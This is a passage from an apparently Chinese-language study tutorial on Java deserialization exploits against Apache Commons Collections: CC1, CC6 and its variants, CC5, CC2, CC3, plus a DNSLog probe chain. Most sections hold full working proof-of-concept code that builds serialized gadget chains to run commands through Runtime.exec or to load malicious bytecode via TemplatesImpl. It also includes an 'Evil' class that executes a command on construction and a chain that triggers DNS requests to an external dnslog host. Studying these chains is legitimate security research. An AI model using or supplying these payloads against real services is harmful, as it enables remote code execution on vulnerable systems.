    Object newInstance = aIHClassDeclaredConstructor.newInstance(Target.class, transformedMap);
    ```

3. 同时，注意到 `AnnotationInvocationHandler` 实际上是动态代理中的 `InvocationHandler`（个人翻译为“调用处理器”），想让它的 `invoke()` 被调用，那就需要**代理对象**和**被代理对象**。

4. 由 Java 的动态代理可知，当**代理对象调用“代理对象和被代理对象共同接口的方法”**时，其会触发调用处理器的 `invoke()` 方法。如果被序列化对象的 `readObject()` 一旦调用了“共同接口的方法”，那么就会触发 `invoke()` ，从而最终调用 `LazyMap` 中的链。因此，思路总结如下：
    

5. 注意：“要求无参”是因为 `AnnotationInvocationHandler.invoke()` 想要调用 `LazyMap.get()` 时，需要所调用的**被代理对象**的方法是**无参**的：
    
    因此需要一个无参的方法来绕过 `if`。

### 4.3 ysoserial 的 CC1 链的“巧妙之处”

1. ysoserial 的巧妙之处在于
    1. 其将 `LazyMap` 同时又作为了被代理的对象（此时 `LazyMap` 就是双重身份）。
    2. 同时，`AnnotationInvocationHandler.readObject()` 内部也调用了一个对象的无参方法，恰巧这个对象可以是代理对象，那么就可以触发 `invoke`。而这个对象是一个 `Map`，此时对应的方法就是 `entrySet()`。他恰好又和 `LazpMap` 继承 `Map`，这使得该 `Map` 可以代理 `LazyMap`（和第一点呼应）。
    3. 总的来说就是**用了两次/实例化两个** `AnnotationInvocationHandler`，一个用作 kick-off，还有一个当作动态代理中的 `InvocationHandler`。
2. 综上，ysoserial 的 CC1 链的逻辑如下：
    

### 4.4 PoC 构造与结果

1. 结合上述逻辑图，PoC 构造如下：

    ```java
    // 1. 构造链
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // 2. 构造 LazyMap（同时也相当于创建被代理类）
    HashMap<Object, Object> map = new HashMap<>();
    LazyMap lazyMap = LazyMap.lazyMap(map, transformedChain);
    
    // 3. 把 AnnotationInvocationHandler 的构造函数搞出来
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    
    // 4. 先搞出来一个 InvocationHandler ，这里第一个参数没有要求
    InvocationHandler invocationHandler = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, lazyMap);
    
    // 5. 创建代理对象（被代理类已经创建好了，就是 lazyMap）
    System.out.println(Arrays.toString(lazyMap.getClass().getInterfaces()));
    Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
    
    // 6. 实例化并被序列化的对象（注意这里要传入代理对象，这样才能在其 readObject() 中调用代理对象的方法（即 entrySet()）
    Object toBeSerializedObj = aIHClassDeclaredConstructor.newInstance(Override.class, proxyMap);
    
    // 7. 序列化
    String serializedStr = serialize(toBeSerializedObj);
    unSerialize(serializedStr);
    ```

2. 结果如下：
    
    有个问题：反序列化的时候会报错。

3. 链大致如下：
    ```java
    /*
    	AnnotationInvocationHandler.readObject()
    		Map(Proxy).entrySet()
    			AnnotationInvocationHandler.invoke()
    				LazyMap(BeProxyed).get()
    					ChainedTransformer.transform()
    						...
    */
    ```

    


## 5. 最简单的链 -- DNSLog 探测链

### 5.1 基本原理

1. 前文所讲的 CC 链，顾名思义，会涉及到 CC 的库，但是 DNSLog 链就是纯 JDK 链。他没有版本限制，但是只能触发 DNS 解析。

2. `HashMap<>` 就是一个复合条件的类，他重写了 `readObject()`，而且是 JDK 自带的。
    至于 `HashMap<>` 为什么重写 `readObject()`，详见：

    > https://juejin.cn/post/6844903954774491144

### 5.2 `HashMap<>.readObject()` 详解 - kick-off

1. 首先，`HashMap<>` 在 `readObject()` 中对**键**调用了 `hash(key)`：
    
2. 跟进 `hash()`：
    
    如果 key 不为空，那么会调用他的 `hashCode()` 方法。

### 5.3 `URL` 类中的 `hashCode()` - sink

1. 参考：

    > https://www.bilibili.com/video/BV16h411z7o9/?spm_id_from=333.999.0.0&vd_source=93978f7f30465e9813a89cdacc505a92
    > 最先找 web 中是否存在 rce，没有 rce 退一步找 ssrf，然后在浏览 `URL` 类中找到了它的 `hashCode()` 方法，同时 `URL` 类实现了 `Serializable` 接口

2. 审计 `URL.hashCode()`：
    

3. 跟进 `handler.hashCode()`：
    
    在 `URLStreamHandler` 中，其 `hashCode()` 方法调用了 `getHostAddress()`。

4. `getHostAddress()`，一路跟下去，发现它会根据域名获取 IP 地址，此时必定会向指定的 URL 发送 DNS 请求。

### 5.4 整合并构造链

1. `HashMap<>` 中放 `URL`。

2. 想要反序列化时触发 `URL.hashCode()`，必须要求其属性 `hashCode` 为 -1。

3. 需要注意的一点是，调用 `HashMap.put()` 时，其会调用一次 `hashCode()`：
    
    **如果在其插入之前没有通过反射把属性 `hashCode` 重置为非 -1 的话（默认刚创建时为 -1)**，那么其会在 `put()` 插入时发起 DNS 请求。

4. 在序列化时还得将其改成 -1。否则反序列化时，由于其 `hashCode` 不是 -1，从而不会发起 DNS 请求，这和实际要求截然相反。

5. 结合上述四点，构造 payload。

    ```java
    @Test
    public void testDNSLog() throws MalformedURLException, NoSuchFieldException, IllegalAccessExcept
        HashMap<URL, Integer> hashMap = new HashMap<URL, Integer>();
        // 1. 创建 URL，其访问地址为 burp 生成的用于检测 DNSLog 的，当然 dnslog 也行
        URL url = new URL("http://apcv57.dnslog.cn/");
    
        // 2. 在 put 前通过反射将键为 url 的 hashCode 改成非 -1
        Class<? extends URL> urlClass = url.getClass();
        // 获取对象内的属性
        Field hashCode = urlClass.getDeclaredField("hashCode");
        // 忽略其安全限制（无效化 private、protected 关键字）
        hashCode.setAccessible(true);
        // put 前改为非 -1，为了防止下面 put 时发出一次 DNS 请求从而干扰结果
        hashCode.setInt(url, 1);
    
        // 3. 塞进去
        hashMap.put(url, 10);
        // 4. 序列化前改回 -1
        hashCode.setInt(url, -1);
        // 5. 序列化
        String serialize = serialize(hashMap);
        unSerialize(serialize);
    }
    ```

6. 结果如下：
    

7. gadget 细节：
    ```java
    /*
    	HashMap.readObject()
    	    HashMap.putVal()
    	        HashMap.hash()
    	            (HashMap 的键)URL.hashCode()
    	                URLStreamHandler.hashCode()
    	                    getHostAddress()
    */
    ```

## 6. 最好用的链 - CC6 - 不受 JDK 版本限制的类

### 6.1 漏洞原理

1. 在 [5.2](# 5.2 `HashMap<>.readObject()` 详解) DNSLog 链中，提到了 `HashMap#readObject()` 的利用方法。该 kick-off 调用原生 JDK，很适合重复利用。然后回顾 CC1，他的 sink 基本没啥问题，但是问题在于其 kick-off，也就是 `AnnotationInvocationHandler`，需要通过动态代理来触发 `LazyMap.get()`，比较麻烦，而且高版本下该类被修复，那就去找其他的类。
    现在目标在于：“现在已经拥有了 DNSLog 的 kick-off（也就是 `HashMap.键.hashcode()`，**那么现在需要找到一个类，其 `hashCode()` 调用了 `LazyMap.get()`**，将该类塞入 `HashMap` 的键，这样就能调用 CC1 的 chain + sink”。那么接下来的目标就是再寻找 chain，将两者连在一起。
2. 使用到的类是 CC 中的 `TiedMapEntry` 这个类：
    
    它的 `getValue()` 为：
    
3. 因此，给它的 map 赋值，然后调用其 `hashCode()`，即可触发。

### 6.2 POC 编写

1. 具体细节见：

    > https://www.freebuf.com/articles/web/320466.html

    注意其中有些注意点。

2. Payload：

    ```java
    // CC 4.0
    @Test
        public void testCC6() throws NoSuchFieldException, IllegalAccessException {
            // 1. 构造链 sink
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer<>(Runtime.class),
                    new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            };
            ChainedTransformer transformedChain = new ChainedTransformer(transformers);
    
            // 2. kick-off 创建 HashMap
            HashMap<Object, Object> toBeSerializedHashMap = new HashMap<>();
    
            // 3. 构建 chain2，创建 LazyMap，先不传链的后半部分，让链断开，这样 put 时调用 HashMap.hashCode() 时不会触发链
            LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
    
            // 4. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
            // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
            TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
    
            // 5. 将 kick-off 和 chain 相连
            toBeSerializedHashMap.put(lazyMapTiedMapEntry, "随便");
    
            // 6. 把 lazyMap 中塞入的 key 给去掉
            lazyMap.remove("EndlessShw");
            // 当然也可以使用 clear
            // lazyMap.clear();
    
            // 7. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
            Field factoryField = lazyMap.getClass().getDeclaredField("factory");
            factoryField.setAccessible(true);
            factoryField.set(lazyMap, transformedChain);
    
            String serialize = serialize(toBeSerializedHashMap);
            unSerialize(serialize);
    }
    ```
    
3. gadget 部分细节：
    ```java
    /*
    	HashMap.readObject()
    	    HashMap.putVal()
    	        HashMap.hash()
    	            (HashMap 的键)TiedMapEntry.hashCode()
    	                TiedMapEntry.getValue()
    	                    LazyMap.get()
    	                        LazyMap.transform()
    	                        ...
    */
    ```

### 6.3 链变体 - kick-off 的改变

1. 上一个 CC6 链：
    `HashMap + TiedMapEntry + LazyMap + Transformer`。
    将 kick-off 进行改变，那么就要找到一个类，这个类的 `readObject()` 会调用到 `TiedMapEntry` 的 `hashcode()`。

2. su18 师傅直接提到了一个类 `HashSet`，如果从 `HashMap` 和 Hash 的角度考虑，可能还是从含有 Hash 的数据结构考虑。

3. `HashSet` 的 `readObject()` 方法中，调用一个 `HashMap` 的 `put()`：
    
    这个 `map` 成员的来源：
     

4. 初步的 gadget 如下：

    ```java
    /*
    	HashSet.readObject()
    	    HashMap.put()
    	        HashMap.putVal()
    	            HashMap.hash()
    	                (HashMap 的键)TiedMapEntry.hashCode()
    	                ......
    */
    ```

    可以看出，和上一个 CC6 链相比，仅仅只是更改了 kick-off，但是都用到了 `HashMap`。

### 6.4 链变体 - POC 构造

1. 上述还遗留一个问题，那就是如何给该成员 `map` 赋值，最容易想到的当然是通过反射：
    ```java
    // CC 4.0
    @Test
        public void testCC6_2() throws NoSuchFieldException, IllegalAccessException {
            // 1. 构造链 sink
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer<>(Runtime.class),
                    new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            };
            ChainedTransformer transformedChain = new ChainedTransformer(transformers);
    
            // 2. 构造 chain2
            LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
    
            // 3. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
            // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
            TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
    
            // 4. 创建 HashSet 和 HashMap，通过反射修改其 Map 为 HashMap
            HashSet toBeSerializedHashSet = new HashSet();
            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put(lazyMapTiedMapEntry, "EndlessShw");
            Field mapField = toBeSerializedHashSet.getClass().getDeclaredField("map");
            mapField.setAccessible(true);
            mapField.set(toBeSerializedHashSet, hashMap);
    
            // 5. 将 LazyMap 中存放的 key 删除
            lazyMap.remove("EndlessShw");
    
            // 6. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
            Field factoryField = lazyMap.getClass().getDeclaredField("factory");
            factoryField.setAccessible(true);
            factoryField.set(lazyMap, transformedChain);
    
            String serialize = serialize(toBeSerializedHashSet);
            unSerialize(serialize);
        }
    ```

2. 当然，审计一下 `HashSet` 的构造函数，可以看到：
    

    要求传入一个 `Collection<>`，跟进 `addAll()`：
    
    其中调用了 `add()`，再跟进 `add()`：
    
    总结一下，其遍历传入的 `Collection<>`，将每个元素加入到 `HashSet.map` 的 `key`。那么只需要我们传入的 `Collection<>` 是链中 `HashMap` 的 `keySet()` 就行。

3. 通过构造函数来传入的 PoC 如下：
    ```java
    // CC 4.0
    @Test
    public void testCC6_2_Change() throws NoSuchFieldException, IllegalAccessException {
        // 1. 构造链 sink
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>(Runtime.class),
                new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        // 2. 构造 chain2
        LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
        // 3. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
        // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
        TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
        // 4. 创建 HashSet 和 HashMap，这里直接通过构造函数来传入
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(lazyMapTiedMapEntry, "EndlessShw");
        HashSet toBeSerializedHashSet = new HashSet(hashMap.keySet());
        // 5. 将 LazyMap 中存放的 key 删除
        lazyMap.remove("EndlessShw");
        // 6. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
        String serialize = serialize(toBeSerializedHashSet);
        unSerialize(serialize);
    }
    ```

## 7. CC5

### 7.1 `TiedMapEntry` 的触发点

1. CC6 中，`TiedMapEntry` 最终触发 `LazyMap.get()` 的本质就是 `TiedMapEntry.map.get()`，而其只有在 `TiedMapEntry.getValue()` 中唯一使用。从这个角度来看，`TiedMapEntry` 还有其他的方法来触发：
    
    
    CC6 中使用的是 `hashCode()`，那么 CC5 中使用的是 `toString()`。

### 7.2 新 kick-off

1. 和 CC6 的思路一样，CC1 的 kick-off，也就是 `AnnotationInvocationHandler` 需要替换，现在的要求是：“一个类的 `readObject()` 调用了 `TiedMapEntry.toString()`”。
2. su18 师傅给出了一个类：`javax.management.BadAttributeValueExpException`：
    
    分析逻辑，其会将反序列化中的 `val` 属性提取出来，然后如果 `System.getSecurityManager() == null`，就会触发链条，默认这个不等式是成立的。

### 7.3 PoC 编写

1. 基本没啥难的，就改了 kick-off 而已：
    ```java
    // CC 4.0
    @Test
    public void testCC5() throws NoSuchFieldException, IllegalAccessException {
        // 1. 构造链 sink
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>(Runtime.class),
                new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        // 2. 构造 chain2
        LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
        // 3. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
        // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
        TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
        // 4. 通过反射修改 BadAttributeValueExpException 的 val
        BadAttributeValueExpException toBeSerBAVEException = new BadAttributeValueExpException("123");
        Field valField = toBeSerBAVEException.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(toBeSerBAVEException, lazyMapTiedMapEntry);
        // 5. 将 LazyMap 中存放的 key 删除
        lazyMap.remove("EndlessShw");
        // 6. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
        String serialize = serialize(toBeSerBAVEException);
        unSerialize(serialize);
    }
    ```

2. 这里不用构造函数的原因是：
    
    其会调用一次 `val.toString()`，所以序列化的时候会执行一次。

3. 链大致如下：
    ```java
    /*
    	BadAttributeValueExpException.readObject()
    		TiedMapEntry.toString()
    			TiedMapEntry.getValue()
    	         	LazyMap.get()
    	         		LazyMap.transform()
    						LazyMap.get()
    							....
    */
    ```

## 8. CC2

### 8.1 字节码和恶意类构造 sink

1. CC1 和 6 中，都是用三个 `InvokerTransformer` 以及一个 `ChainedTransformer` 反射执行 `Runtime.getRuntime().exec()`。然而在 CC2 中，只使用一个 `InvokerTransformer` 反射调用 `TemplatesImpl.newTransform()`，从而加载恶意类的 bytecode，也就是字节码。

2. `TemplatesImpl` 类位于 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，实现了 `Serializable` 接口，因此它可以被序列化。先来看他的一个方法 `getTransletInstance()`：
    
    `_class` 是 `Class` 类型的数组，那么这里就是使用字节码进行了实例化。假设这里是恶意类的字节码，同时该恶意类的构造函数调用命令，那么就会执行。
    注意该方法是 `private`，通过 `InvokerTransformer` 反射调用的函数应该要是 `public`（因为 `InvokerTransformer` 内没找到 `setAccessible(true)`)。因此现在有三个方向要处理：

    1. 执行 `getTransletInstance()` 的 `public` 方法。
    2. `_class[]` 和 `_transletIndex` 的控制方法。

3. 先看第一个方向：执行 `getTransletInstance()` 的 `public` 方法。这个其实很巧，在 `TemplatesImpl` 中进行搜索，**结果只有一个结果：`newTransformer()`。**
    

4. 再来看第二个方向， `_class` 的赋值地方：
    
    跟过去：
    
    再向上找 `defineTransletClasses()` 的调用者：
    
    兜兜转转又绕回来了，执行 `getTransletInstance()` 竟然会执行 `defineTransletClasses()`。这样问题就解决了。
    将**要执行的操作**总结一下：

    1. 通过反射控制 `_bytecodes`，向内注入字节码数组。
    2. 通过反射保证 `_name`  不为 `null`。

    TODO：这里遗留一个问题，为什么不直接反射控制 `_class` 呢？到时候试一下。目前能想到的一个方向就是，能链式调用方法就调用方法而不是反射，因为某些时候反射修改的内容会被二次修改。

5. 最后看第三个方向，`_transletIndex` 的控制逻辑：
    
    可以看到，`_transletIndex` 是一个标记位，用于标记 `_class` 中继承了 `AbstractTranslet` 的类，否则默认为 `-1`。那么我们**该做的操作是将恶意类继承 `AbstractTranslet`。**

### 8.2 新的 Chain - `TransformingComparator`

1. 能够随意调用方法的类，还是要通过 `InvokerTransformer` 的反射来执行。

2. 通过前面 CC1 和 CC6 的 `LazyMap` 和 `TransformedMap`，现在需要一个类来执行 `transform()` 方法。而现在用到的新类就是：`TransformingComparator`。看起来就和 `TransformedMap` 相似，一个是 transform 特性 + `Map`，一个就是 transform 特性 + `Comparator`。先来看看这个类的描述：

    > Decorates another Comparator with transformation behavior. That is, the return value from the transform operation will be passed to the decorated compare method.
    > This class is **Serializable** from Commons Collections 4.0.
    > Since: 2.1
    > See Also: Transformer, ComparableComparator
    > 大概的意思是：`TransformingComparator` 修饰一个 `Comparator`，先对比较的元素进行 `transform()` 操作，然后将返回的结果传入所修饰的 `Comparator` 以进行比较。注意他的本质还是一个 `Comparator`。
    > PS：高亮处说明 CC2 只能用于 CC 4.0 版本。
    
3. 他的 `compare()` 方法如下：
    
    也就是说，参与比较的两个元素要是 `InvokerTransformer`。

### 8.3 kick-off

1. 从 `TransformingComparator` 的角度来看，现在需要找到一个类，其要求是：可以参与序列化，其 `readObject()` 最终会执行排序的逻辑，同时其 `Comparator` 可以指定。这里给出一个类为：`PriorityQueue`。

2. 先来看看 `PriorityQueue` （优先级队列）的官方定义吧：

    > An unbounded priority queue based on a priority heap. The elements of the priority queue are ordered according to their natural ordering, or by a Comparator provided at queue construction time, depending on which constructor is used. A priority queue does not permit null elements. A priority queue relying on natural ordering also does not permit insertion of non-comparable objects (doing so may result in ClassCastException).
    > 大概的意思是：一个非绑定的优先级队列是基于一个优先级堆（priority heap）。优先级队列的元素根据他们自身的自然排列准则而有序，也可以根据一个在构造函数中所指定的 `Comparator`；两者怎么选择取决于所使用的构造函数。优先级队列不允许 NULL 元素，也不允许不可比较的对象（因为会导致 ClassCastException）

    心里有个数后，直接从它的 `readObject()` 开始分析：
    
    跟进 `heapify()`：
    
    继续深入：
    
    
    这里大概就是排序了，调用了 `comparator`。
    注意到比较的逻辑是将 `queue` 中的元素放进 `TransformingComparator.compare()`，因此需要**控制 `queue` 中的元素，将其换成 `TemplatesImpl`**，这样 `compare()` 中的 `InvokerTransformer` 才能定位到 `TemplatesImpl.newTransformer()`。

### 8.4 PoC 编写

1. 个人写的 PoC 如下：
    ```java
    // CC 4.0
    @Test
        public void testCC2() throws IOException, CannotCompileException, NotFoundException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
            // 1. 读取恶意类 bytes[]
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
            byte[] bytes = ctClass.toBytecode();
    
            // 2. 构造 sink
            TemplatesImpl templates = new TemplatesImpl();
            // 要求 1 - 注入恶意字节码
            Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
            bytecodesField.setAccessible(true);
            bytecodesField.set(templates, new byte[][]{bytes});
            // 要求 2 - 保证 _name 不为 null
            Field nameField = templates.getClass().getDeclaredField("_name");
            nameField.setAccessible(true);
            nameField.set(templates, "EndlessShw");
    
            // 3. 构造 chain
            // newTransform() 无参数，后面两个就直接 new 出来了
            InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer<>("newTransformer", new Class[]{}, new Object[]{});
            TransformingComparator transformingComparator = new TransformingComparator<>(invokerTransformer);
    
            // 4. 构造 kick-off
            PriorityQueue<Object> priorityQueue = new PriorityQueue<>();
            priorityQueue.add("1");
            priorityQueue.add("2");
            // su18 师傅这里该用获取 queue 后修改第一个元素的方法，我这里就直接新建一个覆盖
            Field queueField = priorityQueue.getClass().getDeclaredField("queue");
            queueField.setAccessible(true);
            // 如果像 su18 师傅那样只修改一个的话，那么第二个元素因为不是 TransformerImpl，从而无法调用 `newTransformer()` 而报错
            // 尝试全改成了这个类，结果是命令会调用两次，虽然解决了这个报错，但是最终会引起 TransformerImpl cannot be cast to java.lang.Comparable
            // 只能说，逃不掉的，报错是一定的。
            queueField.set(priorityQueue, new TemplatesImpl[]{templates, templates});
    
            // 5. 将 kick-off 和 chain 相连
            Field comparatorField = priorityQueue.getClass().getDeclaredField("comparator");
            comparatorField.setAccessible(true);
            comparatorField.set(priorityQueue, transformingComparator);
    
            String serialize = serialize(priorityQueue);
            unSerialize(serialize);
        }
    ```

2. 恶意类如下：
    ```java
    package com.endlessshw.serialization.util;
    
    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
    
    import java.io.IOException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description:
     * 继承 AbstractTranslet 是为了 TemplatesImpl._transletIndex，即下标位精准定位
     * 修改 namesArray 的目的就是为了防止 {@link TemplatesImpl#getTransletInstance()} 中的 `translet.postInitialization();` 抛出空指针错误
     * @date 2024/9/27 16:37
     */
    public class Evil extends AbstractTranslet {
        public Evil() throws IOException {
            super();
            Runtime.getRuntime().exec("calc");
            namesArray = new String[2];
            namesArray[0] = "newTransformer";
            namesArray[1] = "123";
        }
    
        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    
        }
    
        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    
        }
    }
    ```

3. 链大致如下：
    ```java
    /*
    	PriorityQueue.readObject()
    	    PriorityQueue.heapify()
    	        PriorityQueue.siftDown() -> siftDownUsingComparator
    	            TransformingComparator.compare()
    	                InvokerTransformer.transform()
    	                    TemplatesImpl.newTransformer()
    	                        TemplatesImpl.getTransletInstance()
    	                            TemplatesImpl.defineTransletClasses()
    	                                TemplatesImpl.getTransletInstance()._class[_transletIndex].newInstance()
    */
    ```

## 9. CC3 = CC1 + CC2 + 创新

### 9.1 新的 chain - `TrAXFilter` + `InstantiateTransformer`

1. CC3 的 sink 依旧是 CC2 的 `TemplatesImpl`，不过其选用了新的 chain。之前都是通过 `InvokerTransformer` 的强大反射来调用 `TemplatesImpl.newTransformer()`，那么这回能否找到一个类，从而直接定向的执行该方法呢？CC3 中所使用的就是 `TrAXFilter`。
    
2. 调用点在其构造函数的位置：
    
    那接下来就是要找能实例化 `TrAXFilter` 的方法了，如果可以的话，**尽可能找到一个 `Transformer`**，其 `transform()` 能够实例化，这样就可以接上 `LazyMap.get()` 了。
3. CC 提供了一个类叫 `InstantiateTransformer`，来看看这个类的 `transform()`：
    
    可以看到，其通过反射调用构造函数并实现实例化。那么就来看看有无 `iParamTypes` 和 `iArgs` 的赋值地方。
    
    它的构造方法完成赋值，很好，这样就用不到反射了。

### 9.2 PoC 构造

1. 使用 CC1 的 kick-off 时，需要注意的是 `AnnotationInvocationHandler` 传入到 `LazyMap.get()`，最终传入到 `transform(input)` 的 `input`，也就是反射所需要的字节码 class 是不可控的，因此还是需要 `ChainedTransformer` 和 `ConstantTransformer` 来强制控制传入的 class。

2. CC3 的 kick-off 和 sink 分别参考 CC1 和 CC2，所以 PoC 构造如下：

    ```java
    // cc 4.0，JDK 版本较低
    @Test
        public void testCC3() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NotFoundException, IOException, CannotCompileException, NoSuchFieldException {
            // 1. 读取恶意类 bytes[]
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
            byte[] bytes = ctClass.toBytecode();
    
            // 2. 构造 sink
            TemplatesImpl templates = new TemplatesImpl();
            // 要求 1 - 注入恶意字节码
            Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
            bytecodesField.setAccessible(true);
            bytecodesField.set(templates, new byte[][]{bytes});
            // 要求 2 - 保证 _name 不为 null
            Field nameField = templates.getClass().getDeclaredField("_name");
            nameField.setAccessible(true);
            nameField.set(templates, "EndlessShw");
    
            // 3. 构造 InstantiateTransformer 和 ChainedTransformer
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer<>(TrAXFilter.class),
                    new InstantiateTransformer<>(new Class[]{Templates.class}, new Object[]{templates}),
            };
            ChainedTransformer transformedChain = new ChainedTransformer(transformers);
    
    
            // 2. 构造 LazyMap（同时也相当于创建被代理类）
            HashMap<Object, Object> map = new HashMap<>();
            LazyMap lazyMap = LazyMap.lazyMap(map, transformedChain);
    
            // 3. 把 AnnotationInvocationHandler 的构造函数搞出来
            // 通过反射，获取到 class 类对象
            Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            // 通过 class 类对象获取 class 类对象的构造函数
            Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
            // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
            aIHClassDeclaredConstructor.setAccessible(true);
    
            // 4. 先搞出来一个调用处理器，这里第一个参数没有要求
            InvocationHandler invocationHandler = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, lazyMap);
    
            // 5. 创建代理对象（被代理类已经创建好了）
            // System.out.println(Arrays.toString(lazyMap.getClass().getInterfaces()));
            Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
    
            // 6. 实例化并被序列化的对象（注意这里要传入代理对象，这样才能在其 readObject() 中调用代理对象的方法（即 entrySet()）
            Object toBeSerializedObj = aIHClassDeclaredConstructor.newInstance(Override.class, proxyMap);
    
            String serialize = serialize(toBeSerializedObj);
            unSerialize(serialize);
        }
    ```

